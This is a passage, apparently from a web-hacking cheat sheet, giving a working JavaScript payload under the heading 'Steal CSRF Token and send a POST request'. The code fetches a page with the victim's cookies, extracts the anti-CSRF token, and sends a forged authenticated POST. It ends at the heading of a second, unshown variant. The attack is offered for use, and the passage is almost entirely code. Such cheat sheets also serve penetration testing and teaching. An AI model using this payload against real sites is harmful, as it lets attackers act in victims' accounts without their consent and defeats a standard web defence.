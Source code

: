 ### **Steal CSRF Token and send a POST request**

```javascript
function submitFormWithTokenJS(token) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", POST_URL, true);
    xhr.withCredentials = true;

    // Send the proper header information along with the request
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

    // This is for debugging and can be removed
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            //console.log(xhr.responseText);
        }
    }

    xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
    var xhr = new XMLHttpRequest();
    // This tels it to return it as a HTML document
    xhr.responseType = "document";
    xhr.withCredentials = true;
    // true on the end of here makes the call asynchronous
    xhr.open("GET", GET_URL, true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            // Get the document from the response
            page = xhr.response
            // Get the input element
            input = page.getElementById("token");
            // Show the token
            //console.log("The token is: " + input.value);
            // Use the token to submit the form
            submitFormWithTokenJS(input.value);
        }
    };
    // Make the request
    xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();
```

### **Steal CSRF Token and send a Post request using an iframe, a form and Ajax**
